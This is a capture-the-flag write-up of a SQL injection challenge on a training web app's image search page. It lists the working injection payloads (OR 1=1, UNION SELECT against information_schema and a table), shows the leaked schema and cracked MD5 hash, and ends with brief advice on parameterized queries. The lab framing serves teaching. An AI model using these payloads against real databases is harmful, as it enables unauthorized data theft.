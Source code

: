 # [SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## WriteUp
On route `index.php?page=searchimg`, there is a prompt that allows us to search for an image within the database by specifying it's ID. Entering a number 1,2,3 and 5 displays thetitle and a url of the image.

Checking for Sql injections, we can pass the prompt `1 OR 1 = 1`. This causes all images to be displayed, meaning we can preform SQL Injections on the database. To gather data on the all the tables within the database and their columns, let use the prompt `1 OR 1 = 1 UNION SELECT table_name,column_name FROM information_schema.columns`.

This causes the webapp to render out all tables within the database and their colums, here is a simplified view:
``` ts
db = {
	"db_default": {
		"id": number,
		"username": string,
		"password": string,
	},
	"users": { // members
		"user_id": number,
		"first_name": string,
		"last_name": string,
		"town": string,
		"country": string,
		"planet": string,
		"Commentaire": string, 
		"coubtersign": string, // md5 hash
	},
	"guestbook": { //
		"id_comment": number,
		"comment": string,
		"name": string,
	},
	"list_images": { // Images
		"id": number,
		"url": string,
		"title": string,
		"comment": string,
	},
	"vote_dbs": {
		"vote": any, // I have no idea
		"nb_vote": number,
		"subject": string,
	},
}
```

Using `1 UNION SELECT title,%colunm% FROM list_images`, where `%column%` is a column in `list_images`, we can leak all the colunms for each image in `list_images`. We get the folowing image that looks interesting:
``` json
{
  "images": { 
    "id": 5,
	"url": "Hack me ?",
	"Commentaire": "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46",
  },
}
```

Decripting the password with an [MD5 decryptor](https://md5decrypt.net/en/#answer), we get the password `albatroz`, getting the Sha256 of `albatroz` nets us the flag.

## Possible Patches
Sanitizing your input and parameterizing your input is the best way to prevent sql injections. By removing/encoding dangerous characters you can prevent injections from happening.